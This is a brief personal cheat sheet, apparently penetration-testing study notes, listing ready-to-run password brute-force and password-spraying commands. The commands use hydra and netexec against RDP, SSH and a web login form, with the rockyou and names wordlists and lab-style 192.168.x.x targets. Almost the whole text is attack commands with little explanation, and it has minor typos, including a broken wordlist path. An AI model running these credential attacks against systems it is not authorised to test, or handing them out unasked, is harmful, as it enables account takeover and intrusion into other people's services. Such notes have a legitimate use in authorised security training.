 # RDP
### hydra
password attack
```
hydra -l user -P /usr/share/wordlists/rockyou.txt -s 3389 rdp://192.168.x.x
```

password splay
```
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "password" rdp://192.168.x.x
```
### netexec
```
iconv -f ISO-8859-1 -t UTF-8 /usr/share/wordlists/rockyou.txt -o /tmp/rockyou-utf8.txt
```

use default
```
netexec rdp 192.168.x.x -u user -p /tmp/rockyou-utf8.txt
```

thread 20
```
netexec rdp 192.168.x.x -u user -p /tmp/rockyou-utf8.txt -t 20
```

# SSH
### hydra
```
hydra -l user -P /usr/hare/wordlists/rockyou.txt -s 2222 ssh://192.168.x.x
```

# HTTP
### Hydra
1. use burpsuit and login request
![[../../Pasted image 20250702194420.png]]

and intercepted login request
![[../../Pasted image 20250702194521.png]]

hydra commad
```
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```